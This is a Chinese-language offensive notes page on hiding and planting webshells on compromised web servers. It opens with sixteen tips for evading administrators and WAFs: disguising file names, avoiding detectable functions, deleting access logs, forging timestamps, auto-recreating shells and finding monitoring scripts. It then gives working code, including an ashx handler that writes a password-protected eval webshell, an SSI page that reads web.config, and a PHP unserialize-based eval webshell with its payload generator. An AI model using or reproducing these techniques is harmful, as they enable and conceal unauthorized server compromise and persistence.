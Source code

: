 

# 隐藏webshell的几条建议

```
1.尽量藏在那些程序员和管理员都不会经常光顾的目录中
比如:第三方工具的一些插件目录,主题目录,编辑器的图片目录以及一些临时目录

2.目录层级越深越好,平时网站不出问题的话,一般四五级目录很少会被注意到

3.webshell的名字千万不要太扎眼,比如:hack.php,sb.php,x.php这样的名字严禁出现……,在给webshell起名的时候尽量跟当前目录的,其他文件的名字相似度高一点,这样相对容易混淆视听,比如:目录中有个叫new.php的文件,那你就起个news.php

4.webshell里面尽量不要用类似eval这种过于敏感的特征,因为awk一句话就能查出来,除了eval,还有,比如:exec,system,passthru,shell_exec,assert这些函数都最好不要用,你可以尝试写个自定义函数,不仅能在一定程度上延长webshell的存活时间也加大了管理员的查找难度,也可以躲避一些功能比较简陋waf查杀,此外,我们也可以使用一些类似:call_user_func,call_user_func_array,诸如此类的回调函数特性来构造我们的webshell,即伪造正常的函数调用

5.靠谱的方法就是直接把一句话插到正常的网站脚本文件里面,当然最好是在一个不起眼的地方,比如:函数库文件,配置文件里面等等,以及那些不需要经常改动的文件……

6.再或者拿到权限以后,把网站日志中的所有关于webshell的访问记录和渗透时造成的一些网站报错记录全部删除

7.尝试利用静态文件隐藏一句话,然后用.htaccess 规则进行解析

8.把webshell的属性时间改为和同目录文件相同的时间戳,比如linux中的touch就是非常好的工具

9.当然,如果在拿到服务器权限以后,也可以自己写个脚本每隔一段时间检测下自己的webshell是否还存在,不存在就创建

10.利用php.ini 配置文件隐藏webshell,把webshell的路径加入到配置文件中

11.如果是大马的话,尽量把里面的一些注释和作者信息全部都去掉,比如intitle字段中的版本信息等等,用任何大马之前最好先好好的读几遍代码,把里面的shell箱子地址全部去掉推荐用开源的大马,然后自己拿过来仔细修改,记住,我们的webshell尽量不要用加密,因为加密并不能很好的解决waf问题,还有,大马中一般都会有个pass或者password字符,建议把这些敏感字段全部换成别的,因为利用这样的字符基本一句话就能定位到

12.养成一个好习惯,为了防止权限很快丢失,最好再同时上传几个备用webshell,注意,每个webshell的路径和名字千万不要都一样更不要在同一个目录下,多跳几层,记住,确定shell正常访问就可以了,不用再去尝试访问看看解析是否正常,因为这样就会在日志中留下记录,容易被查到

13.在有权限的情况,看看管理员是否写的有动态webshell监测脚本,务必把脚本找出来,crontab一般都能看见了

14.上传个精心构造的图片马,然后再到另一个不起眼的正常的网站脚本文件中去包含这个图片马

15.如果有可能的话,还是审计下目标的代码,然后想办法在正常的代码中构造执行我们自己的webshell,即在原生代码中执行webshell

16.上传.user.ini文件来解析图片或隐藏webshell[https://ha.cker.in/1097.seo]

```

# 写shell技巧

## ashx写入

ashx脚本，服务器有.net环境但aspx被禁止上传时适用。这个执行后会在当前目录下生成webshell.asp一句话木马，密码是pass 也可以写入其它文件

```as
<%@ WebHandler Language="C#" class="Handler"% >
using System;
using System.Web;
using System.IO;
public class Handler:IHttpHandler {
 
public void ProcessRequest (HttpContext context) {
    context.Response.ContentType = "text/plain";
    StreamWriter file = File.CreateText(context.Server.MapPath("webshell.asp")));
    file.Write("<%eval request(\"pass\")%>");
    file.Flush();
    file.Close();
    context.Response.Write("www.webshell.cc");
}
 
public bool IsReusable {
    get {
        return false;
    }
}
}
```



## 别忘了shtml

stm/shtm/shtml脚本，虽然不能直接拿到webshell，但是可以获取到一些服务器信息。注意stm中的include可以将web.config文件中的内容包含进来

```html
<!--#ECHO var="ALL_HTTP"-->
当前文件名称:<!--#ECHO var="DOCUMENT_NAME"-->
Web服务器的名称和版本:<!--#ECHO var="SERVER_SOFTWARE"-->
主机名:<!--#ECHO var="SERVER_NAME"-->
端口:<!--#ECHO var="SERVER_PORT"-->
客户或客户代理IP地址:<!--#ECHO var="REMOTE_ADDR"-->
客户或客户代理主机名:<!--#ECHO var="REMOTE_HOST"-->
PATH_INFO 的值，但带有扩展为某个目录规范的虚拟路径:
<!--#ECHO var="PATH_TRANSLATED"-->
客户端给出附加路径信息:<!--#ECHO var="PATH_INFO"-->
<!--#ECHO var="HTTP_ACCEPT"-->
<!--#ECHO var="DOCUMENT_URI"-->
<!--#include file="../../web.config"-->
```

## 利用unserialize构造webshell

server:

```php
<?php

class foo{
    public $data="text";
    function __destruct()
    {
        eval($this->data);
    }

}

$file_name=$_GET['id'];
unserialize($file_name);
```

client:生成执行地址

```php
<?php

class foo{
    #public $data="phpinfo();";
    public $data="system('ls');";

}
$a=new foo;
$b=serialize($a);
echo "please visit uri:\n"."[your shell page url]"."?id=".$b;
```

原理：服务端被访问后在内存中有一个foo类模板,当客户端伪造一个同名的叫做foo的类的对象的序列化后的结果给服务端反序列化时,服务端在反序列化这个这个传入的反序列化值后将认为这是当前内存中对应的foo类模板的一个实例对象,于是去执行当前内存的foo类模板的`__wakeup`,`__destruct`等函数,但是恰好这些函数会造成php代码执行[eval($this->data)],且$this->data可控.

## Linux Echo Jsp木马

当wget 命令不存在，并禁止从外网下载东西，此时可用echo写base64加密的shell

```bash
echo neirong > /目录/360.jsp
```

## 资料
shtml

https://www.t00ls.net/viewthread.php?tid=21318

Deformity PHP Webshell、Webshell Hidden Learning

http://www.cnblogs.com/LittleHann/p/3522990.html

unserialize免杀webshell

http://3xp10it.cc/web/2017/04/18/unserialize%E5%85%8D%E6%9D%80webshell/